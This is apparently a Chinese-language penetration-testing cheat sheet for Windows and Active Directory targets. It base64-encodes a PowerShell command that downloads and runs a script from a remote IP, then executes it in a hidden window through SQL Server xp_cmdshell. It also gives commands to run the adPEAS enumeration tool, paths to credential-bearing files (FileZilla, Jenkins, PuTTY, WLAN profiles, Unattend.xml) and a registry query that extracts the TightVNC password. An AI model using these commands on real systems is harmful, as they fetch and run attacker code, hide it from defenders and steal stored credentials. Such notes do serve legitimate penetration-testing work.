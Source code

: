 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```


# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```

# Juicy files

## All user folders
## Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```

## Web.config
```
C:\inetpub\www\*\web.config
```

## Unattend files
```
C:\Windows\Panther\Unattend.xml
```


## RDP config files
```
C:\ProgramData\Configs\
```


## Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```


## PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```

## FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```

## Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```


## WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```

## TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```